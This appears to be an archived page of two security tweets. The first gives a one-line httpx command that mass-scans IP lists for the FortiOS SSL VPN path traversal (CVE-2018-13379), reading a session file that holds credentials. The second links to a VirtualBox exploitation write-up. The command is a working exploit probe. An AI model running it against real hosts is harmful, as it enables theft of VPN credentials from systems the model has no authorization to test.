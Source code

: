 
# alone_breecher
**https://twitter.com/alone_breecher/status/1677230327796756481 _at 2023-07-07, 08:17:26_**
<blockquote>
Title :- A path traversal vulnerability in the FortiOS SSL VPN web portal  CVE-2018-13379 🪲

 httpx -l ips.txt -path "/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession" -status-code -mc 200

#BugBounty #bugbountytip #bugbountytips #Hacking #CyberSecurity https://t.co/ypA6wRMux1
</blockquote>

<table><tr>
<td><img src="pictures/3bd4ce980dae4adaf26851daa516e03b82c80ec14139f26c13eb5b914908b904.jpg" alt="3bd4ce980dae4adaf26851daa516e03b82c80ec14139f26c13eb5b914908b904.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>181</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1676848689585831936 _at 2023-07-06, 07:00:56_**
<blockquote>
Nice blog post on exploiting VirtualBox on Windows (CVE-2023-21987 and CVE-2023-21991)

https://t.co/E3vPy2raRR

#virtualbox #infosec https://t.co/amzyLNX5F3
</blockquote>

* https://qriousec.github.io/post/vbox-pwn2own-2023/

<table><tr>